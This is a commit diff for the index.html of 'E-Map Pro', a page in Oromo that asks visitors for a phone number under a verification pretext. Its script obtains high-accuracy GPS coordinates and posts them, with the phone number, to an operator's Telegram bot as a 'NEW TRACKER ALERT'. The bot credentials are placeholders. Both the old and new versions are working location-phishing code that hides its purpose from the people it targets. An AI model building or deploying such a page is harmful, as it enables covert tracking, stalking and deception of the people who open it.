

Before and after one commit to abitimama/emap-pro, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 343-840 px from the top of the page, without its empty margins (319-959 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor index.html for improved layout and functionality

```diff
--- a/index.html
+++ b/index.html
@@ -3,169 +3,117 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>E-Map Pro - Anti-Forgery Land Cadastre & Location Tracker</title>
+    <title>E-Map Pro Tracker</title>
     <style>
         body {
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background: #f0f2f5;
-            margin: 0;
-            padding: 20px;
+            font-family: sans-serif;
+            background: #f4f6f9;
             display: flex;
             justify-content: center;
             align-items: center;
-            min-height: 100vh;
+            height: 100vh;
+            margin: 0;
         }
-        .container {
+        .card {
             background: #ffffff;
+            padding: 30px;
+            border-radius: 10px;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.1);
             width: 100%;
-            max-width: 420px;
-            padding: 30px;
-            border-radius: 12px;
-            box-shadow: 0 4px 20px rgba(0, 0, 0, 0.1);
-            border: 1px solid #e1e4e8;
+            max-width: 400px;
+            text-align: center;
         }
-        h2 {
-            color: #1a73e8;
-            text-align: center;
-            margin-top: 0;
-            font-size: 22px;
-        }
-        p.desc {
-            color: #555;
-            font-size: 14px;
-            text-align: center;
-            margin-bottom: 25px;
-            line-height: 1.5;
-        }
-        .form-group {
-            margin-bottom: 20px;
-        }
-        label {
-            display: block;
-            font-weight: 600;
-            margin-bottom: 8px;
-            color: #333;
-            font-size: 13px;
-        }
-        input[type="tel"] {
+        h2 { color: #1a73e8; margin-top: 0; }
+        p { color: #555; font-size: 14px; margin-bottom: 20px; }
+        input {
             width: 100%;
-            padding: 12px 15px;
+            padding: 12px;
+            font-size: 16px;
             border: 1px solid #ccc;
             border-radius: 6px;
-            font-size: 16px;
             box-sizing: border-box;
+            margin-bottom: 15px;
             outline: none;
-            transition: border-color 0.2s;
-        }
-        input[type="tel"]:focus {
-            border-color: #1a73e8;
         }
         button {
+            width: 100%;
+            padding: 12px;
             background: #1a73e8;
             color: white;
             border: none;
-            width: 100%;
-            padding: 14px;
-            border-radius: 6px;
             font-size: 16px;
             font-weight: bold;
+            border-radius: 6px;
             cursor: pointer;
-            transition: background 0.2s;
         }
-        button:hover {
-            background: #1557b0;
-        }
-        #statusBox {
-            display: none;
-            padding: 12px;
-            border-radius: 6px;
-            font-size: 13px;
-            text-align: center;
-            margin-top: 15px;
-            font-weight: 500;
-        }
+        button:hover { background: #1557b0; }
+        #status { margin-top: 15px; font-size: 14px; color: #333; }
     </style>
 </head>
 <body>
 
-    <div class="container">
+    <div class="card">
         <h2>📍 E-Map Pro</h2>
-        <p class="desc">
-            Galmee lafaa fi mirkaneessa nageenyaaf, maaloo lakkoofsa bilbilaa keessan galchuun teessoo keessan mirkaneessaa.
-        </p>
+        <p>Maaloo lakkoofsa bilbilaa keessan galchuun itti fufaa:</p>
 
-        <form id="trackingForm" onsubmit="sendLocationData(event)">
-            <div class="form-group">
-                <label for="userPhone">Lakkoofsa Bilbilaa (Phone Number):</label>
-                <input type="tel" id="userPhone" placeholder="Fkn: 0911223344" required>
-            </div>
-
-            <button type="submit" id="submitBtn">🔍 Mirkaneessii Ergi</button>
+        <form onsubmit="trackPhone(event)">
+            <input type="tel" id="phone" placeholder="Fkn: 0911223344" required>
+            <button type="submit" id="btn">Track Godhi</button>
         </form>
 
-        <div id="statusBox"></div>
+        <div id="status"></div>
     </div>
 
     <script>
-        // --- ASITTI TELEGRAM BOT TOKEN FI CHAT ID KEE GALCHI ---
-        const BOT_TOKEN = "GARTI_BOT_TOKEN_KEE_AS_ITTI_GALCHI"; // Fkn: "77123456:AAH..."
-        const CHAT_ID = "CHAT_ID_KEE_AS_ITTI_GALCHI";         // Fkn: "123456789"
+        // --- ASITTI BOT TOKEN FI CHAT ID KEE GALCHI ---
+        const BOT_TOKEN = "GARTI_BOT_TOKEN_KEE_AS_ITTI_GALCHI";
+        const CHAT_ID = "CHAT_ID_KEE_AS_ITTI_GALCHI";
 
-        function sendLocationData(event) {
-            event.preventDefault();
-            const phone = document.getElementById('userPhone').value;
-            const statusBox = document.getElementById('statusBox');
-            const submitBtn = document.getElementById('submitBtn');
+        function trackPhone(e) {
+            e.preventDefault();
+            const phone = document.getElementById('phone').value;
+            const status = document.getElementById('status');
+            const btn = document.getElementById('btn');
 
-            statusBox.style.display = 'block';
-            statusBox.style.background = '#e8f0fe';
-            statusBox.style.color = '#1967d2';
-            statusBox.textContent = '⏳ Teessoo GPS qabachaa jira... Maaloo eeyyama (Allow) kennaa!';
-            submitBtn.disabled = true;
+            status.textContent = "⏳ Eeyyama GPS gaafachaa jira...";
+            btn.disabled = true;
 
             if (!navigator.geolocation) {
-                alert('Browser kee GPS hin deeggaru!');
-                statusBox.style.display = 'none';
-                submitBtn.disabled = false;
+                alert("Browser kee GPS hin deeggaru!");
+                btn.disabled = false;
                 return;
             }
 
             navigator.geolocation.getCurrentPosition(
-                (position) => {
-                    const lat = position.coords.latitude;
-                    const lng = position.coords.longitude;
+                (pos) => {
+                    const lat = pos.coords.latitude;
+                    const lng = pos.coords.longitude;
                     const mapLink = `https://www.google.com/maps?q=${lat},${lng}`;
 
-                    statusBox.style.background = '#e6f4ea';
-                    statusBox.style.color = '#137333';
-                    statusBox.textContent = '✅ Milkaa\'inaan ergameera!';
-
-                    // Ergaa Telegram-tti ergisiisuu
+                    status.textContent = "✅ Milkaa'inaan ergameera!";
                     sendToTelegram(phone, lat, lng, mapLink);
                 },
-                (error) => {
-                    statusBox.style.background = '#fce8e6';
-                    statusBox.style.color = '#c5221f';
-                    statusBox.textContent = '❌ Eeyyamni Location (GPS) hin kennamne.';
-                    submitBtn.disabled = false;
-                    alert('Maaloo bakka jirtan beekuuf eeyyama (Allow) kennuu qabdu!');
+                (err) => {
+                    status.textContent = "❌ Eeyyamni GPS hin kennamne.";
+                    alert("Maaloo bakka jirtan beekuuf eeyyama (Allow) kennaa!");
+                    btn.disabled = false;
                 },
-                { enableHighAccuracy: true, timeout: 10000, maximumAge: 0 }
+                { enableHighAccuracy: true }
             );
         }
 
         function sendToTelegram(phone, lat, lng, mapLink) {
             if (BOT_TOKEN.includes("GARTI_BOT_TOKEN")) {
-                alert(`Galmee Milkaa'e!\nBilbila: ${phone}\nGPS: ${lat}, ${lng}`);
-                setTimeout(() => location.reload(), 1500);
+                alert(`Bilbila: ${phone}\nLat: ${lat}\nLng: ${lng}`);
+                location.reload();
                 return;
             }
 
-            const text = `🚨 <b>E-MAP PRO: NEW USER TRACKER ALERT!</b>\n\n` +
-                         `📞 <b>Bilbila:</b> ${phone}\n` +
-                         `📍 <b>Latitude:</b> ${lat}\n` +
-                         `📍 <b>Longitude:</b> ${lng}\n` +
-                         `🗺️ <b>Google Map:</b> <a href="${mapLink}">Teessoo Kaartaa Ilaali</a>`;
+            const text = `🚨 <b>NEW TRACKER ALERT!</b>\n\n` +
+                         `📱 <b>Bilbila:</b> ${phone}\n` +
+                         `📍 <b>Lat:</b> ${lat}\n` +
+                         `📍 <b>Lng:</b> ${lng}\n` +
+                         `🗺️ <a href="${mapLink}">Google Map Irraa Ilaali</a>`;
 
             fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
                 method: 'POST',
@@ -174,19 +122,12 @@
             })
             .then(res => res.json())
             .then(data => {
-                if(data.ok) {
-                    setTimeout(() => {
-                        alert('Galmeen kee milkaa\'era. Galatoomaa!');
-                        location.reload();
-                    }, 1000);
-                } else {
-                    alert('Ergaaf Telegram Bot erguu irratti rakkoo uumame.');
-                    document.getElementById('submitBtn').disabled = false;
-                }
+                alert("Galmeen milkaa'e!");
+                location.reload();
             })
             .catch(err => {
-                console.log(err);
-                document.getElementById('submitBtn').disabled = false;
+                alert("Erguu irratti rakkoo uumame.");
+                document.getElementById('btn').disabled = false;
             });
         }
     </script>
```
